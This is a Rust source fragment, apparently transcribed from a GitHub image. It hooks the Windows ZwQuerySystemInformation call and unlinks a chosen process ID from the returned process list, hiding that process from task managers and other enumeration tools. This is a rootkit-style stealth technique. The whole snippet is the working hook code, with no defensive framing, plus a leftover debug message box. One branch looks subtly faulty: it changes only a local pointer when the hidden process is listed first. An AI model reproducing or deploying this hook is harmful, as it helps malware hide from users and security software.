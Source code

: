 ```rust

    ZwQuerySystemInformationHook
        .initialize(target, zwquery_system_infomation_detour)?
        .enable()?;
    Ok(())
}

#[allow(unused_assignments)]
/// Called whenever `ZwQuerySystemInformation` is invoked in the process.
fn zwquery_system_infomation_detour(
    system_infomation_class: SYSTEM_INFORMATION_CLASS,
    mut system_infomation: *mut c_void,
    system_infomation_length: c_ulong,
    return_length: *mut c_ulong,
) -> NTSTATUS {
    let mut prev = 0;
    let status = unsafe {
        ZwQuerySystemInformationHook.call(
            system_infomation_class,
            system_infomation,
            system_infomation_length,
            return_length,
        )
    };
    if status != STATUS_SUCCESS || system_infomation_class != SystemProcessInformation {
        return status;
    }

    let mut psystem_information: *mut SYSTEM_PROCESS_INFORMATION =
        unsafe { mem::transmute(system_infomation) };
    loop {
        if HIDE_PID == unsafe { (*psystem_information).UniqueProcessId.0 } as i32 {
            let st = unsafe { format!("system information ==> {:#?}", *psystem_information) };
            unsafe { MessageBoxA(None, PCSTR::from_raw(st.as_ptr()), s!("info"), MB_OK) };
            if prev == 0 {
                system_infomation = (psystem_information as u64
                    + (unsafe { *psystem_information }).NextEntryOffset as u64)
                    as *mut c_void;
            } else if (unsafe { *psystem_information }).NextEntryOffset == 0 {
                (unsafe { *(prev as *mut SYSTEM_PROCESS_INFORMATION) }).NextEntryOffset = 0;
            } else {
                unsafe {
                    (*(prev as *mut SYSTEM_PROCESS_INFORMATION)).NextEntryOffset +=
                        (*psystem_information).NextEntryOffset;
                }
            }
            break;
        } else {
            prev = psystem_information as u64;
        }

        if unsafe { (*psystem_information).NextEntryOffset == 0 } {
            break;
        }

        psystem_information =
            unsafe { psystem_information as u64 + (*psystem_information).NextEntryOffset as u64 }
                as *mut SYSTEM_PROCESS_INFORMATION;
    }

    status
}

```